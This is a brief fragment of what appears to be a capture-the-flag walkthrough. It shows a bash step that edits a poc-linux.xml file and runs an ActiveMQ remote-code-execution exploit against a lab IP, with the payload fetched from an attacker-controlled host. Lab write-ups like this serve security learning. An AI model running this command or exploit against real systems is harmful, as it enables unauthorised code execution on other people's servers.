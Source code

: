 {% tab title="Step 3" %}
```bash
# edit the XML file
sudo nano poc-linux.xml
# execute the exploit
./ActiveMQ-RCE -i 10.10.11.243 -u http://10.10.14.37:8001/poc-linux.xml
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/broker_exploit_all.png" alt=""><figcaption><p>Figure 4: Configuring and executing the exploit.</p></figcaption></figure>
